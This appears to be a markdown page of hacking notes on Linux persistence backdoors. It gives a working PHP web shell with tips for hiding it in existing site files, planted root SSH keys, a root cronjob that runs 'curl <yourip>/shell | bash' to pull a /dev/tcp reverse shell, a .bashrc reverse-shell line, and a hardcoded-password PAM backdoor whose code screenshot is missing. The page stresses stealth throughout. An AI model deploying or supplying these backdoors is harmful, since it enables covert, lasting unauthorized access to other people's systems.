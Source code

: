 # Backdoor 
d
## backdoor using ssh
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- ssh backdoor 
	```
	ssh-keygen
	```
	- Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys
	- give the private key the right permissions using : chmod 600 id\_rsa

## PHP backdoor
you can try creating a php file with any name and putting inside this piece of code

- php backdoor code
	```php
	<?php  
    if (isset($\_REQUEST\['cmd'\])) {  
        echo "<pre>" . shell\_exec($\_REQUEST\['cmd'\]) . "</pre>";  
    }  
	?>
	```
	
**tips**
1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## cronjob backdoor
this backdoor consist of creating a cronjob!
take a look at your cronjobs file, which is /etc/cronjob
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.
- crontab script
	```
	* *     * * *   root    curl http://<yourip>:8080/shell | bash
	```
	Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

	We first use "curl" to download a file , and then we pipe it to "bash"

	The contents of the "shell" file that we are using are simply :
	```bash
	#!/bin/bash 
	bash -i >& /dev/tcp/ip/port 0>&1
	```
	We would have to run an HTTP server serving our shell.

	You can achieve this by running : "python3 -m http.server 8080"  
	Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
	Don't forget to listen on your specified port with "nc -nvlp <port>"
	
## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## pam unix 
	We can see that we added a new line to our code : "if (strcmp(p, "0xMitsurugi") != 0 )"

Okay, if this code looks confusing to you at first, don't worry!

We'll break it down together!

So first, we have to know what the function "strcmp" does.

This function basically compares 2 strings.

In the screenshot above, we compare the variable "p" and the string "0xMitsurugi".

The variable "p" stands for the user's supplied password. In other words, the password that the user-supplied.

You can also see "!=0" at the end of the statement. This means "if not successful". So, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix\_verify\_password" will be used.

But on the other hand, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM\_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam\_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam\_unix.so"

So let's do a little recap:

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix\_verify\_password" function. When using the "unix\_verify\_password" function to authenticate, the function takes

the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam\_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Since this method is slowly becoming more and more popular, you probably won't be able to do it every time, as everybody would slowly but surely, understand how to protect themselves.

Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
	

	
	
